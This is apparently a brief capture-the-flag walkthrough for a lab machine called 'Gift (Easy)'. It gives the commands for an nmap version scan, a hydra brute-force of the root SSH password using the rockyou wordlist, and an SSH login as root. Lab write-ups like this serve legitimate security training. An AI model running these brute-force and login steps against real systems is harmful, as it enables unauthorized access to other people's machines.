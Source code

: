 # Gift (Easy)
- Let's start of by running a network scan using nmap.
- `nmap -sV 192.168.0.107`

	- `-sV` : *Probe open ports to determine service/version info*
- We can find 2 ports open
	![1.png](images/1.png)

- Now let's start of the ssh port

- To find out the password we have to bruteforce, for this we can **hydra**.

- `hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.0.107 ssh`
	- `-l` : login name
	- `-P` : mention the file that contains the possible passwords.
- We obtain the password
![2.png](images/2.png)
- Now let's ssh into the machine
- `ssh root@192.168.0.107`
	- `ssh [username]@[address]`
- When prompted enter the password we got from hydra and we are in.
![3.png](images/3.png)